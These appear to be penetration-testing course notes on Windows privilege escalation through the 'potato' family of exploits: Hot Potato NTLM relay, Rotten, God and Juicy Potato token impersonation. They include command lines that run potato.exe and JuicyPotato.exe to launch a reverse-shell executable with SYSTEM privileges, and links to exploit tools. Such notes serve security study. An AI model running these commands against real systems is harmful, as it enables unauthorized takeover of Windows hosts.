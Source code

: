 ## Hot potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

1. Copy the potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit: ```.\potato.exe -ip <IP> -cmd "C:\temp\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true```
4. Wait for a Windows Defender update, or trigger one manually.

## Token impersonation
### Service accounts
We briefly talked about service accounts at the start of the course. Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly. Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

### Rotten potato
The original Rotten Potato exploit was identified in 2016. Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

#### SeImpersonate / SeAssignPrimaryToken
Service accounts are generally configured with these two privileges. They allow the account to impersonate the access tokens of other users (including the SYSTEM user). Any user with these privileges can run the token impersonation exploits in this lecture.

### God potato
- Just like juicy/sweet potato. Worked flawlesly on Windows Server 2022
- https://github.com/BeichenDream/GodPotato
 
### Juicy potato
- https://github.com/antonioCoco/JuicyPotatoNG (New one)
- https://github.com/ohpe/juicy-potato
- https://github.com/TsukiCTF/Lovely-Potato
Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.

#### Run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:
If the CLSID ({03ca…) doesn’t work for you, either check this list: https://github.com/ohpe/juicy-potato/blob
```
C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\temp\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
 